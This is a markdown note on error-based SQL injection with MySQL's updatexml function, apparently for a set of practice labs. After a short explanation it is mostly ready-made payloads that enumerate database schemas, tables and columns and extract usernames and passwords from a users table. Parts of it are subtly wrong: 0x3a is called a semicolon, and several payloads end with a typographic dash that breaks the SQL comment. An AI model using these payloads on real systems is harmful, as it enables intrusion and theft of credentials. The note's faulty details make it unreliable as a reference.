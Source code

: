 # Double query injections
## UpdateXML(xml_target, xpath_expr, new_xml);
XML is a markup language much like HTML.XML was designed to store and transport data <br>
updatexml is a sql query which is used to update a xml form in which to update a particaular XPath Expression <br>
to a new one.their are valid and invalid characters in xml path language.when we insert a invalid character with our <br>
sql query our playload in x_path expression. so it gets evaluted and stored in form of error. in this we concat 0x3a(;) <br>
which is a invalid xpath expression. so our error message is a evaluted sql query<br>
basic syntax we can even use extractvalue same like updatexml<br>
updatexml(<‘a>aa</a>’ , ’/a’ ,null);<br>

Select  updatexml(<‘a>aa</a>’ , ’/a’ ,null);<br>
  
AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-<br>
in this we dont need to concat ; coz version itself have special characters in them so it itself produces error

AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--<br>
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--<br>

we concat : in the a first because the table name wont have any invalid chars as it is only letters so to retrive the first name we concat ';' <br>
but from them ',' is a invalid char so it validates the whole expression. and there is the limit for this error string.<br>


AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--<br>
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--<br>
Lab 5<br>
1’ AND updatexml(rand(),concat(0x3a,(SELECT concat(group_concat(column_name)) FROM information_schema.columns WHERE TABLE_NAME='emails' LIMIT 0,1)),null)--+<br>
1’ AND updatexml(rand(),concat(0x3a,(SELECT concat(group_concat(table_name)) FROM information_schema.tables WHERE TABLE_schema=database() LIMIT 0,1)),null)--+<br>
1’ AND updatexml(rand(),concat(0x3a,(SELECT concat(group_concat(username)) FROM users LIMIT 0,1)),null)—+  <br>
1’ AND updatexml(rand(),concat(0x3a,(SELECT concat(group_concat(password)) FROM users LIMIT 0,1)),null)—+ <br>

Lab 6<br>
1" AND updatexml(rand(),concat(0x3a,(SELECT concat(group_concat(column_name)) FROM information_schema.columns WHERE TABLE_NAME='emails' LIMIT 0,1)),null)-- <br>
1" AND updatexml(rand(),concat(0x3a,(SELECT concat(group_concat(table_name)) FROM information_schema.tables WHERE TABLE_schema=database() LIMIT 0,1)),null)--+ <br>
1" AND updatexml(rand(),concat(0x3a,(SELECT group_concat(username)) FROM users LIMIT 0,1)),null)--+<br>
1" AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(password),CHAR(126)) FROM users LIMIT 0,1)),null)—+  <br>

Lab 13 <br>
1’) AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(column_name),CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME='emails' LIMIT 0,1)),null)—+ <br>
1’) AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(table_name),CHAR(126)) FROM information_schema.tables WHERE TABLE_schema=database() LIMIT 0,1)),null)—+ <br>
1’) AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(username),CHAR(126)) FROM users LIMIT 0,1)),null)—+  <br>
1’) AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(password),CHAR(126)) FROM users LIMIT 0,1)),null)—+ <br>


Lab 14<br>
1" AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(column_name),CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME='emails' LIMIT 0,1)),null)—+ <br>
1" AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(table_name),CHAR(126)) FROM information_schema.tables WHERE TABLE_schema=database() LIMIT 0,1)),null)—+<br>
1" AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(username),CHAR(126)) FROM users LIMIT 0,1)),null)--+ <br>
1" AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(password),CHAR(126)) FROM users LIMIT 0,1)),null)—+  <br>





